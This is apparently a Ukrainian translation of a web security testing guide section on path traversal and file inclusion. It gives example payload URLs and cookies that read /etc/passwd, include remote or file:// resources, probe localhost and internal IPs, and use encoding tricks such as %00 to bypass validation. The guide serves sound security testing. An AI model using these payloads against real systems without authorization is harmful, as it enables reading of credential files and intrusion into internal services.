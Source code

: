 Щоб визначити, яка частина програми вразлива до обходу валідації вводу, тестувальник повинен перерахувати всі частини програми, які приймають вміст від користувача. Це також включає в себе HTTP GET і POST запити і поширені опції, такі як завантаження файлів і HTML-форм.

Ось кілька прикладів перевірок, які потрібно виконати на цьому етапі:
- Чи існують параметри запиту, які можуть бути використані для операцій з файлами?
- Чи є незвичайні розширення файлів?
- Чи є цікаві імена змінних? 
	- ```http://example.com/getUserProfile.jsp?item=ikki.html```
	- ```ttp://example.com/index.php?file=content```
	- ```http://example.com/main.cgi?home=index.htm```
- Чи можна ідентифікувати файли cookie, які використовуються веб-додатком для динамічної генерації сторінок або шаблонів?
	- ```Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower```
	- ```Cookie: USER=1826cc8f:PSTYLE=GreenDotRed```

## Методика тестування
Наступним етапом тестування є аналіз функцій перевірки вхідних даних, присутніх у веб-додатку. У попередньому прикладі динамічна сторінка ```getUserProfile.jsp``` завантажує статичну інформацію з файлу і показує вміст користувачам. Зловмисник може вставити шкідливий рядок ```../.../.../.../etc/passwd```, щоб включити хеш-файл пароля системи Linux/UNIX. Очевидно, що така атака можлива лише за умови збою в контрольній точці валідації; згідно з привілеями файлової системи, сам веб-додаток повинен мати можливість прочитати цей файл.

Для успішного тестування на цю уразливість тестувальник повинен мати знання про систему, що тестується, і розташування файлів, які запитуються. Немає сенсу запитувати ```/etc/passwd``` з веб-сервера IIS.

	http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
На прикладі файлів cookie:
	
	Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
Також можна включити файли і скрипти, розташовані на зовнішньому сайті:

	http://example.com/index.php?file=http://www.owasp.org/malicioustxt
Якщо в якості аргументів приймаються протоколи, як у наведеному вище прикладі, можна також дослідити локальну файлову систему таким чином:

	http://example.com/index.php?file=file:///etc/passwd
Якщо в якості аргументів приймаються протоколи, як у наведених вище прикладах, можна також дослідити локальні сервіси та сусідні сервіси:

	http://example.com/index.php?file=http://localhost:8080
	http://example.com/index.php?file=http://192.168.0.2:9080
Наступний приклад продемонструє, як можна показати вихідний код CGI-компонента, не використовуючи жодних символів обходу шляху.
	
	http://example.com/main.cgi?home=main.cgi	
Компонент з ім'ям ```main.cgi``` знаходиться в тому ж каталозі, що і звичайні статичні файли HTML, які використовуються додатком. У деяких випадках тестувальнику потрібно кодувати запити з використанням спеціальних символів (наприклад, ```•```, ```%00``` нуль і т.д.), щоб обійти контроль розширення файлу або запобігти виконанню скрипта.

**Порада:** Поширеною помилкою розробників є те, що вони не враховують всі види кодування і тому виконують перевірку лише для основного закодованого контенту. Якщо тестовий рядок не пройшов перевірку, спробуйте іншу схему кодування.
